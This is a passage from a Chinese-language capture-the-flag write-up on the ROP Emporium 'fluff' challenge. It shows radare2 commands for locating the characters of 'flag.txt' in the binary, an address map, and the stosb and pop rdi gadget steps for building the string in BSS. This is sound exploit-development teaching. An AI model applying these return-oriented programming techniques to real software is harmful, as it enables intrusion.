 #### 3. 寫入字節 (使用 STOSB)  
- `stosb` 指令將 `al` 中的字節寫入 `[rdi]` 指向的地址
- 使用 `pop rdi` gadget 來設置目標地址

## 字符映射獲取方法

### 使用 Radare2 尋找字符

**操作步驟**:
```bash
r2 fluff          # 打開二進制文件
aaa               # 分析所有函數和符號
/ f               # 搜索字符 'f'
/ l               # 搜索字符 'l'  
/ a               # 搜索字符 'a'
/ g               # 搜索字符 'g'
/ .               # 搜索字符 '.'
/ t               # 搜索字符 't'
/ x               # 搜索字符 'x'
```

**獲得的字符地址映射**:
```python
char_map = {
    'f': 0x0040058a,
    'l': 0x004003e4, 
    'a': 0x00400424,
    'g': 0x004003cf,
    '.': 0x004003fd,
    't': 0x004003e0,
    'x': 0x00400725
}
```

### 驗證字符地址

在 Radare2 中驗證找到的地址：
```bash
px 1 @ 0x0040058a  # 檢查地址內容
# 輸出: 66 'f'

px 1 @ 0x004003e4  # 檢查地址內容  
# 輸出: 6c 'l'
```

### 為什麼需要字符映射？

由於這個挑戰：
1. **沒有直接的字符串**: 程序中沒有現成的 "flag.txt" 字符串
2. **需要逐字節構建**: 必須在 BSS 段中手動構建目標字符串
3. **XLATB 限制**: 只能從已存在的內存位置讀取字符
4. **分散存儲**: 需要的字符散布在程序的不同位置（函數名、字符串常量等）
